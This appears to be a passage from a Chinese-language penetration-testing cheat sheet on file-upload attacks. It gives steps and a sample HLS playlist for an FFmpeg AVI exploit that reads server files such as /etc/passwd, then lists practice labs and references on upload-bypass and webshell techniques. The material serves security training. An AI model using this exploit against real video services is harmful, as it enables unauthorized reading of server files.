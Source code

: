 FFmpeg 是一种开源软件，用于处理音频和视频格式。您可以使用嵌入在 AVI 视频中的恶意 HLS 播放列表来读取任意文件。

1. `./gen_xbin_avi.py file://<filename> file_read.avi`
2. 上传 `file_read.avi` 到某个处理视频文件的网站
3. 在服务器端，由视频服务完成: `ffmpeg -i file_read.avi output.mp4`
4. 在视频服务中点击“播放”。
5. 如果幸运的话，您将从服务器获取 `<filename>` 的内容。

该脚本创建了一个包含 GAB2 中 HLS 播放列表的 AVI。此脚本生成的播放列表如下所示：

```ps1
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/etc/passwd
#EXT-X-ENDLIST
```

更多有效载荷在 `CVE FFmpeg HLS/` 文件夹中。

## 实验室

* [PortSwigger - 文件上传实验室](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)
* [Root Me - 文件上传 - 双扩展名](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)
* [Root Me - 文件上传 - MIME 类型](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)
* [Root Me - 文件上传 - 空字节](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Null-byte)
* [Root Me - 文件上传 - ZIP](https://www.root-me.org/en/Challenges/Web-Server/File-upload-ZIP)
* [Root Me - 文件上传 - 多语言文件](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)

## 参考

* [A New Vector For “Dirty” Arbitrary File Write to RCE - Doyensec - Maxence Schmitt and Lorenzo Stella - 28 Feb 2023](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)
* [Arbitrary File Upload Tricks In Java - pyn3rd - 2022-05-07](https://pyn3rd.github.io/2022/05/07/Arbitrary-File-Upload-Tricks-In-Java/)
* [Attacking Webservers Via .htaccess - Eldar Marcussen - May 17, 2011](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [BookFresh Tricky File Upload Bypass to RCE - Ahmed Aboul-Ela - November 29, 2014](http://web.archive.org/web/20141231210005/https://secgeek.net/bookfresh-vulnerability/)
* [Bulletproof Jpegs Generator - Damien Cauquil (@virtualabs) - April 9, 2012](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l)
* [Encoding Web Shells in PNG IDAT chunks - phil - 04-06-2012](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [File Upload - HackTricks - 20/7/2024](https://book.hacktricks.xyz/pentesting-web/file-upload)
* [File Upload restrictions bypass - Haboob Team - July 24, 2018](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [IIS - SOAP - Navigating The Shadows - 0xbad53c - 19/5/2024](https://red.0xbad53c.com/red-team-operations/initial-access/webshells/iis-soap)
* [Injection points in popular image formats - Daniel Kalinowski‌‌ - Nov 8, 2019](https://blog.isec.pl/injection-points-in-popular-image-formats/)
* [Insomnihack Teaser 2019 / l33t-hoster - Ian Bouchard (@Corb3nik) - January 20, 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
* [Inyección de código en imágenes subidas y tratadas con PHP-GD - hackplayers - March 22, 2020](https://www.hackplayers.com/2020/03/inyeccion-de-codigo-en-imagenes-php-gd.html)
* [La PNG qui se prenait pour du PHP - Philippe Paget (@PagetPhil) - February, 23 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [More Ghostscript Issues: Should we disable PS coders in policy.xml by default? - Tavis Ormandy - 21 Aug 2018](http://openwall.com/lists/oss-security/2018/08/21/2)